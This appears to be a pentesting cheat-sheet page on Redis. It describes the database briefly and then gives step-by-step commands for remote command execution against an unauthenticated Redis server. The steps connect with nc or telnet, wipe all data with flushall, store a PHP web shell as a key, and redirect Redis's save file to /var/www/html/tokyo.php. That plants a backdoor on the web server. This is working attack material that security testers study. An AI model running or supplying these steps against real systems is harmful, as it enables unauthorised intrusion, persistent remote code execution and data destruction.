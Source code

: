 ```yaml
---
description: Remote Dictionary Server
icon: database
---
```


# Redis

{% hint style="info" %}
* <mark style="color:purple;">**Is an**</mark> [<mark style="color:purple;">**in-memory**</mark>](https://en.wikipedia.org/wiki/In-memory_database) [<mark style="color:purple;">**key–value**</mark>](https://en.wikipedia.org/wiki/Key%E2%80%93value_database) [<mark style="color:purple;">**database**</mark>](https://en.wikipedia.org/wiki/Database)<mark style="color:purple;">**, used as a**</mark> [<mark style="color:purple;">**distributed cache**</mark>](https://en.wikipedia.org/wiki/Distributed_cache) <mark style="color:purple;">**and**</mark> [<mark style="color:purple;">**message broker**</mark>](https://en.wikipedia.org/wiki/Message_broker)<mark style="color:purple;">**, with optional**</mark> [<mark style="color:purple;">**durability**</mark>](https://en.wikipedia.org/wiki/Durability_\(database_systems\))<mark style="color:purple;">**.**</mark>
* <mark style="color:red;">**`Standard Port 6379`**</mark>
{% endhint %}

<details>

<summary><mark style="color:red;"><strong><code>Redis Remote Command Execution</code></strong></mark></summary>

[<kbd><mark style="color:orange;">**Writeup**<mark style="color:orange;"></kbd>](https://packetstorm.news/files/id/134200)

1. <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`redis`**</mark>

{% code lineNumbers="true" %}
```sh
nc localhost 6379
telnet 192.168.1.11 6379
```
{% endcode %}

2. <mark style="color:purple;">Check if authorization is required:</mark>

```sh
echo "Hey no AUTH required!"
```

3. <mark style="color:purple;">Flush the memory:</mark>

```sh
flushall
```

4. <mark style="color:purple;">Write the web-shell:</mark>

{% code overflow="wrap" %}
```sh
set access "<? system($_REQUEST['cmd']); ?>"
```
{% endcode %}

5. <mark style="color:purple;">Set the file name:</mark>

```sh
config set dbfilename tokyo.php
```

6. <mark style="color:purple;">Set the file path:</mark>

```sh
config set dir /var/www/html/
```

7. <mark style="color:purple;">Finally save the file:</mark>

```sh
save
```

</details>

